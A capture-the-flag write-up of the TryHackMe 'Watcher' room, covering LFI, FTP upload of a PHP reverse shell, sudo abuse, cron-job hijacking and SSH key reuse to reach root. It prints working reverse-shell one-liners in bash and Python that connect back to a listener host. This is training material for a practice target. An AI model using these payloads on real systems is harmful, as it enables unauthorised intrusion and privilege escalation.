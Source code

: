 #  Write-up — Watcher [(TryHackMe Room)](https://tryhackme.com/room/watcher)
## Watcher is a fun and beginner-friendly room that takes you through web exploitation, LFI, FTP access, privilege escalation, and finally root access. This write-up explains how I captured all 7 flags step by step.

## Enumeration
We start with an nmap scan:
```python
nmap -A 10.10.175.5
```
Open Ports:
```python
21/tcp – FTP (vsftpd 3.0.5)
22/tcp – SSH (OpenSSH 8.2p1)
80/tcp – HTTP (Apache 2.4.41)
```
## Web Enumeration
On the web server (port 80), /robots.txt discloses two interesting files:

* /flag_1.txt – Contains FLAG 1
* /secret_file_do_not_read.txt – Suspicious

Accessing /flag_1.txt gives us our first flag.

## LFI Exploitation
Navigating to:
```python
http://10.10.175.5/post.php?post=secret_file_do_not_read.txt
```
...reveals FTP credentials!
```python
Username: ****
Password: ****
```
It also mentions that files are saved to /home/ftpuser/ftp/files.

## FTP Access
We log in with credentials and find:
* /flag_2.txt — FLAG 2
* /files/ — Empty, but we can upload files here

## Uploading Reverse Shell
We upload a PHP reverse shell:
```python
put shell.php
```
Then trigger it via LFI:
```python
http://10.10.175.5/post.php?post=/home/ftpuser/ftp/files/shell.php
```
Start listener:
```python
nc -lvnp 4444
```
FLAG 3
```python
/var/www/html/more_secrets_a9f10a/flag_3.txt
```
## User Enumeration
We find user toby and file flag_4.txt, but can't read it due to permissions.

Running sudo -l shows:
```python
(toby) NOPASSWD: ALL
```
Gain shell as toby:
```python
sudo -u toby bash
```
Now we can read flag_4.txt.

## Cron Job Exploit
From /etc/crontab:
```python
*/1 * * * * mat /home/toby/jobs/cow.sh
```
Since cow.sh runs as mat, we append a reverse shell to it:
```python
echo "bash -i >& /dev/tcp/10.10.10.10/9000 0>&1" >> cow.sh
nc -lvnp 9000
```
We get a shell as mat.
FLAG 5

Located in /home/mat/flag_5.txt

## Python Sudo Privilege
In /home/mat/scripts/ we find:
* cmd.py
* will_script.py

We can run as user will without password:
```python
(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```
Edit cmd.py to include reverse shell:
```python
cat << EOF > cmd.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
def get_command(num):
  if(num == "1"):
    return "ls -lah"
  if(num == "2"):
    return "id"
  if(num == "3"):
    return "cat /etc/passwd"
EOF
```
Start listener:
```python
nc -lvnp 8888
```
Run:
```python
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
```
FLAG 6

Now accessible as user will

## Root Privilege
In /opt/backups we find key.b64. Decode:
```python
base64 -d key.b64 > id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@10.10.175.5
```
FLAG 7
 
Final flag in /root/flag_7.txt

## [Watcher](https://tryhackme.com/room/watcher) offers a clear path through layered exploitation — from LFI to cron abuse — making it a solid practice for privilege escalation and web attack chains.

